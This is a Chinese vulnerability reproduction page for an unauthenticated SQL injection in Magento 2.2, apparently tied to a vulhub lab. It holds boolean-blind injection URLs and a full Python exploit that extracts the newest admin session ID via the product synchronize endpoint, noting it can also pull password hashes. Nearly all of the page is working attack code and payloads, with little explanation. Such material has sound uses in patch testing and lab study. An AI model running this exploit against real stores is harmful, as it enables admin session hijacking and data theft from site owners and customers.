

Magento 2.2 SQL注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Magento 2.2

三、复现过程
------------

    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-
    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用POC，可以读取管理员的session：

    #!/usr/bin/env python3
    # Magento 2.2.0 <= 2.3.0 Unauthenticated SQLi
    # Charles Fol
    # 2019-03-22
    #
    # SOURCE & SINK
    # The sink (from-to SQL condition) has been present from Magento 1.x onwards.
    # The source (/catalog/product_frontend_action/synchronize) from 2.2.0.
    # If your target runs Magento < 2.2.0, you need to find another source.
    #
    # SQL INJECTION
    # The exploit can easily be modified to obtain other stuff from the DB, for
    # instance admin/user password hashes.
    #

    import requests
    import string
    import binascii
    import re
    import random
    import time
    import sys
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

    def run(url):
        sqli = SQLInjection(url)

        try:
            sqli.find_test_method()
            sid = sqli.get_most_recent_session()
        except ExploitError as e:
            print('Error: %s' % e)

    def random_string(n=8):
        return ''.join(random.choice(string.ascii_letters) for _ in range(n))

    class ExploitError(Exception):
        pass

    class Browser:
        """Basic browser functionality along w/ URLs and payloads.
        """
        PROXY = None

        def __init__(self, URL):
            self.URL = URL
            self.s = requests.Session()
            self.s.verify = False
            if self.PROXY:
                self.s.proxies = {
                    'http': self.PROXY,
                    'https': self.PROXY,
                }

    class SQLInjection(Browser):
        """SQL injection stuff.
        """

        def encode(self, string):
            return '0x' + binascii.b2a_hex(string.encode()).decode()

        def find_test_method(self):
            """Tries to inject using an error-based technique, or falls back to timebased.
            """
            for test_method in (self.test_error, self.test_timebased):
                if test_method('123=123') and not test_method('123=124'):
                    self.test = test_method
                    break
            else:
                raise ExploitError('Test SQL injections failed, not vulnerable ?')

        def test_timebased(self, condition):
            """Runs a test. A valid condition results in a sleep of 1 second.
            """
            payload = '))) OR (SELECT*FROM (SELECT SLEEP((%s)))a)=1 -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            return r.elapsed.total_seconds() > 1

        def test_error(self, condition):
            """Runs a test. An invalid condition results in an SQL error.
            """
            payload = '))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE %s) -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            if r.status_code not in (200, 400):
                raise ExploitError(
                    'SQL injection does not yield a correct HTTP response'
                )
            return r.status_code == 400

        def word(self, name, sql, size=None, charset=None):
            """Dichotomically obtains a value.
            """
            pattern = 'LOCATE(SUBSTR((%s),%d,1),BINARY %s)=0'
            full = ''

            check = False
            
            if size is None:
                # Yeah whatever
                size_size = self.word(
                    name,
                    'LENGTH(LENGTH(%s))' % sql,
                    size=1,
                    charset=string.digits
                )
                size = self.word(
                    name,
                    'LENGTH(%s)' % sql,
                    size=int(size_size),
                    charset=string.digits
                )
                size = int(size)

            print("%s: %s" % (name, full), end='\r')

            for p in range(size):
                c = charset
                
                while len(c) > 1:
                    middle = len(c) // 2
                    h0, h1 = c[:middle], c[middle:]
                    condition = pattern % (sql, p+1, self.encode(h0))
                    c = h1 if self.test(condition) else h0

                full += c
                print("%s: %s" % (name, full), end='\r')

            print(' ' * len("%s: %s" % (name, full)), end='\r')

            return full

        def get_most_recent_session(self):
            """Grabs the last created session. We don't need special privileges aside from creating a product so any session
            should do. Otherwise, the process can be improved by grabbing each session one by one and trying to reach the
            backend.
            """
            # This is the default admin session timeout
            session_timeout = 900
            query = (
                'SELECT %%s FROM admin_user_session '
                'WHERE TIMESTAMPDIFF(SECOND, updated_at, NOW()) BETWEEN 0 AND %d '
                'ORDER BY created_at DESC, updated_at DESC LIMIT 1'
            ) % session_timeout

            # Check if a session is available

            available = not self.test('(%s)=0' % (query % 'COUNT(*)'))
            
            if not available:
                raise ExploitError('No session is available')
            print('An admin session is available !')

            # Fetch it

            sid = self.word(
                'Session ID',
                query % 'session_id',
                charset=string.ascii_lowercase + string.digits,
                size=26
            )
            print('Session ID: %s' % sid)
            return sid

    run(sys.argv[1])

参考链接
--------

> https://vulhub.org/\#/environments/magento/2.2-sqli/
